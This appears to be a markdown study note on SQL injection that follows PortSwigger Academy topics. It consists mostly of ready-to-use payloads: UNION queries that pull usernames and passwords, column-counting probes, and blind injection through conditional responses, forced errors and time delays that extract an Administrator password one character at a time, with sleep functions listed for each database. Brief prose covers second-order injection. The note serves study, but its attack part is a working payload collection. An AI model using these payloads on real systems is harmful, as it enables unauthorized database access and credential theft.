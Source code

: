 # Web Security resources 


#### Retrieving data from other database tables

```sql
>  ' UNION SELECT username, password FROM users-- 
```
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

##### Determining the number of columns required in an SQL injection UNION attack

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 1-- ... ERROR!

' UNION SELECT NULL-- ERROR!
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- ERROR!
```

#### Examining the database

```sql
> SELECT * FROM information_schema.tables 
```

#### Blind SQL injection vulnerabilities

##### Exploiting blind SQL injection by triggering conditional responses

```sql
> xyz' UNION SELECT 'a' WHERE 1=1--
> xyz' UNION SELECT 'a' WHERE 1=2-- 

> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'-- 
...
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'-- 
```
##### Inducing conditional responses by triggering SQL errors

```sql
> xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
> xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END-- 
> xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users-- 
> ... TO_CHAR(1/0) ... 
```

##### Exploiting blind SQL injection by triggering time delays

```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'--
> '; IF (1=1) WAITFOR DELAY '0:0:10'-- 
> '; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'-- 

> dbms_pipe.receive_message(('a'),10) Oracle
> WAITFOR DELAY '0:0:10' Microsoft
> SELECT pg_sleep(10) PostgreSQL
> SELECT sleep(10) MySQL
```

#### How to detect SQL injection vulnerabilities

```sql
> '
> OR 1=1 | OR 1=2
```

#### SQL injection in different parts of the query

- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.

#### Second-order SQL injection

 First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. 

#### Database-specific factors

- [Cheatsheet of different databases](https://portswigger.net/web-security/sql-injection/cheat-sheet)












